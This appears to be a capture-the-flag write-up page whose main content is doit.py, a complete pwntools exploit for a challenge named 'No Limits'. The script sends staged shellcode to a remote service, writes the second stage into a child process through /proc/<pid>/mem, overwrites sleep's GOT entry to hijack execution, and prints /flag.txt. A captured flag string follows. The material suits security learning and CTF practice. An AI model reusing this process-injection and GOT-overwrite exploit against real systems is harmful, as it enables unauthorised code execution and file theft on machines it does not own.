



2025-10-30
⚒️ No Limits


cat doit.py
#!/usr/bin/env python3
from pwn import asm, log, remote, shellcraft, context
HOST, PORT = "10.1.202.204", 9999
# Architecture / environment
context.arch = "amd64"
context.os = "linux"
context.log_level = "info"
# Targets in the remote binary
SLEEP_GOT = 0x4040a8
LANDING = 0x401443
def build_stage2() -> bytes:
sc = asm("endbr64;")
# Open '/flag.txt' only. If open fails, exit cleanly.
sc += asm(
shellcraft.open("/flag.txt", 0)
+ "cmp rax, 0\n"
+ "jl done\n"
+ "opened:\n"
+ shellcraft.read("rax", "rsp", 0x400)
+ shellcraft.write(1, "rsp", 0x400)
+ "done:\n"
+ shellcraft.exit(0)
)
return sc
def build_stage1(child_pid: int, stage2: bytes) -> bytes:
stage2_bytes = ",".join(f"0x{b:02x}" for b in stage2)
proc_path = f"/proc/{child_pid}/mem\x00"
asm_src = f"""
.intel_syntax noprefix
{shellcraft.pushstr(proc_path)}
mov rdi, rsp
mov rsi, 2
xor rdx, rdx
mov rax, 2
syscall
mov r12, rax
/* seek to LANDING */
mov rdi, r12
mov rax, 8
mov rsi, {LANDING}
xor rdx, rdx
syscall
/* write stage2 bytes into child mem */
mov rdi, r12
lea rsi, [rip + stage2_blob]
mov rdx, {len(stage2)}
mov rax, 1
syscall
/* seek to SLEEP_GOT */
mov rdi, r12
mov rax, 8
mov rsi, {SLEEP_GOT}
xor rdx, rdx
syscall
/* write LANDING into GOT by writing bytes (printed via write) */
mov rdi, r12
mov rax, {LANDING}
push rax
mov rsi, rsp
mov rdx, 8
mov rax, 1
syscall
add rsp, 8
.loop:
jmp .loop
stage2_blob:
.byte {stage2_bytes}
"""
return asm(asm_src)
def expect(io, needle: bytes, timeout: float = 5.0) -> None:
log.info(f"waiting for: {needle!r}")
try:
io.recvuntil(needle, timeout=timeout)
except EOFError:
data = io.clean(timeout=0.2)
log.error(f"EOF while waiting for {needle!r}. Got so far:\n{data}")
raise
except TimeoutError:
data = io.clean(timeout=0.2)
log.error(f"Timeout waiting for {needle!r}. Buffer:\n{data}")
raise
def get_child_pid(io) -> int:
expect(io, b"Enter the command you want to do:")
expect(io, b"4) Exit")
io.sendline(b"2")
expect(io, b"Child PID = ")
pid = int(io.recvline().strip())
log.success(f"Child PID: {pid}")
return pid
def create_mem_and_write(io, blob: bytes) -> int:
alloc = len(blob) + 1 # fgets expects newline-terminated input
expect(io, b"Enter the command you want to do:")
expect(io, b"4) Exit")
io.sendline(b"1")
expect(io, b"How big do you want your memory to be?")
io.sendline(str(alloc).encode())
expect(io, b"What permissions would you like for the memory?")
io.sendline(b"7")
expect(io, b"What do you want to include?")
log.info(f"sending payload {len(blob)+1} bytes")
io.send(blob + b"\n")
expect(io, b"Wrote your buffer at ")
addr = int(io.recvline().strip(), 16)
log.success(f"stage1 buffer at {hex(addr)}")
return addr
def exec_code(io, addr: int) -> None:
expect(io, b"Enter the command you want to do:")
expect(io, b"4) Exit")
io.sendline(b"3")
expect(io, b"Where do you want to execute code?")
io.sendline(hex(addr).encode())
def main() -> None:
io = remote(HOST, PORT)
# 1) obtain child pid so we can write into its memory
pid = get_child_pid(io)
# 2) build stage2 (now only tries '/flag.txt') and stage1
stage2 = build_stage2()
stage1 = build_stage1(pid, stage2)
log.info(f"stage1 size: {len(stage1)} stage2 size: {len(stage2)}")
# 3) create memory on the service and write stage1 there
buf_addr = create_mem_and_write(io, stage1)
# 4) execute stage1 (which will write stage2 into the child's .text and patch sleep@got)
exec_code(io, buf_addr)
# 5) receive any output (flag) printed by the stage2 shellcode
log.info("Waiting")
data = io.recv(timeout=15.0)
if data:
print(data.decode("latin-1", errors="replace"))
# keep socket open a bit more just in case there's more output
more = io.recv(timeout=10.0)
if more:
print(more.decode("latin-1", errors="replace"))
if __name__ == "__main__":
main()
⚙️ Rust Tickler 3

Thanks team!
flag{fb8de641f383151222845d9b991a17c2}
{kind=link}
{kind=link}
{kind=link}